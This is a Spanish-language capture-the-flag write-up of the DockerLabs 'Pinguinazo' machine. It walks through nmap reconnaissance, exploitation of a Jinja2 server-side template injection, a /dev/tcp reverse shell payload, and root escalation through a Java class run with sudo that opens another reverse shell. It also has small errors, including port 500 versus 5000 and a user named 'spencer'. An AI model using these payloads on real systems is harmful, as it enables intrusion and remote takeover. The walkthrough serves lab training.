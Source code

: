 ```yaml
---
title: Pinguinazo - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | El Pingüino de Mario       | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/a1b3010c-7235-45e3-a057-cf16acc3df66)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `5000` (Pon que es )
A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p5000 -sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/454db12c-80e6-4883-b45e-bd5ebedde5cd)

# Exploración Web
Al navegar en el puerto `500`, vemos una pagina con un formulario.

![image](https://github.com/user-attachments/assets/9ad77e97-b5ea-46e9-a5f4-40278e2b5d1d)

Dependiendo de lo que pongamos en el apartado de nombre, nos lo pone en un mensaje. 

![image](https://github.com/user-attachments/assets/a0ef092c-6331-423c-b27f-19392b169c2a)

Vamos a probar con lo siguiente a ver si el formulario saninetiza (no se si esta bien usado esa palabra) y no devuelve lo qque queremos.

En este caso usaremos `{{7*7}}` si nos devuelve 49 es que interperta lo que le escribimos.

![image](https://github.com/user-attachments/assets/39109651-e9ac-444b-9063-72f29577311a)

Como se puede ver nos devuelve la multiplicacion asi que vamos a ver que tegnologia es la que hay por detras haciendo pruebas, para ello como guia podeis usar eta pagina [HackTricks](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection).

Vemos que la tegnologia que usa es `jinja2`, asi que usamos lo siguiente para ver si nos devuelve el comando `id`.

```bash
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```
# Reverse Shell

Ahora lo que haremos sera generar una reverse shell con ello usaremos el siguiente comando.

```bash
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c \'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1\'').read() }}
```

Simultaneamente usamos lo siguiente 

```bash
nc -lvnp 4444  
```

# Intrusion 

Ya estamos dentro con el usario `pinguinazo`.


## TTY ReverseShell

### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

# Escalada de Privilegios.

Al ejecutar `sudo -l`, notamos que spencer tiene permisos para ejecutar `java` como `root`.Utilizando [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell) sabemos cómo explotar estos binarios.

![image](https://github.com/user-attachments/assets/5223fbe6-c1ec-4b5c-9ea9-9987abacb551)

Ahora generamos una reverseshell en la ruta /tmp con el siguiente comando:

```bash
public class shell {
    public static void main(String[] args) {
        Process p;
        try {
            p = Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/172.17.0.1/4444 0>&1");
            p.waitFor();
            p.destroy();
        } catch (Exception e) {}
    }
}
```

Lo guardamos y lo ejecutamos con java

```bash
sudo /usr/bin/java shell.java 
```
Y ya somos root

![image](https://github.com/user-attachments/assets/64d1a323-c580-430e-8a7a-de4b4da2cb2c)
